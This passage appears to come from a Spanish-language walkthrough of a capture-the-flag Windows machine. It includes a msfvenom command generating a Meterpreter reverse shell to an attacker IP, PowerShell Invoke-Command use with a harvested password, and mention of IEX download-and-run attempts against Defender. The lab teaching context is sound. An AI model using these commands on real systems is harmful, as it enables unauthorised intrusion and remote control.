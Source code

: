 ```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe > met.exe
```

Creo un *handler* para recibir la sesión:

<img src="https://user-images.githubusercontent.com/55555187/186612980-8a2e58ee-6da2-4cd2-bc6e-be56918a9622.png" title="" alt="image" width="633">

Ejecuto el archivo *met.exe* en el *PSWA*, obtengo una sesión y ejecuto el comando *screenshare* para ver la pantalla de *EDavies* en tiempo real viendo lo siguiente:

<img src="https://user-images.githubusercontent.com/55555187/186613768-1e69874c-4a06-4dce-ad1b-b723af02d09e.png" title="" alt="image" width="611">

Intento entablar una sesión poniendo los comandos que he visto a través del *screenshare* pero da un error:

```powershell
$passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("ACUTE\imonks",$passwd)
Enter-PSSesion -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```

<img src="https://user-images.githubusercontent.com/55555187/186618049-13358992-ae09-4966-9e41-147e25b2cb13.png" title="" alt="image" width="674">

Aunque no pueda entablar una sesión, podría intentar ejecutar comandos de forma remota como el usuario *imonks* haciendo uso de *Invoke-Command*:

```powershell
$passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("ACUTE\imonks",$passwd)
Invoke-Command -ComputerName ATSSERVER -Credential $cred -ConfigurationNAme dc_manage -ScriptBlock { <Comando> }
```

![image](https://user-images.githubusercontent.com/55555187/186620675-3046f871-73ab-4ec0-8fa4-aecff5d6c3b9.png)

Una vez que sé que puedo ejecutar comandos, lo ideal sería obtener una reverse shell pero al estar en la máquina *ATSSERVER* no tengo forma de saber si hay alguna ruta excluida del *Defender* por lo que de momento es mejor seguir enumerando la máquina desde aquí.

En el escritorio de *imonks* observo el archivo *wm.ps1* el cual ejecuta el comando *Get-Volume* como el usuario *jmorgan* en la máquina *ACUTE-PC01*:

![image](https://user-images.githubusercontent.com/55555187/186622733-2715a000-45f9-43f8-b194-b76d53bdfc40.png)

Intento ver si puedo descifrar la contraseña ya que parece hexadecimal pero está cifrada:

![image](https://user-images.githubusercontent.com/55555187/186623911-185d534f-7eb8-4c31-a77e-9ff7317e85dd.png)

Haciendo uso de los comandos *Get-Content* y *Set-Content* mi idea es editar el archivo *wm.ps1* para que al ejecutarlo, *jmorgan* ejecute otro comando en *ACUTE-PC01*.

1. Pruebo a compartir el archivo *rev.exe* mediante un servidor *smb* pero no funciona.

2. Intento hacerlo por http pero el *Defender* lo detecta como malware

3. Pruebo usando *IEX(New-Object Net.Webclient).DownloadString* pero también es eliminado por el *Defender*.
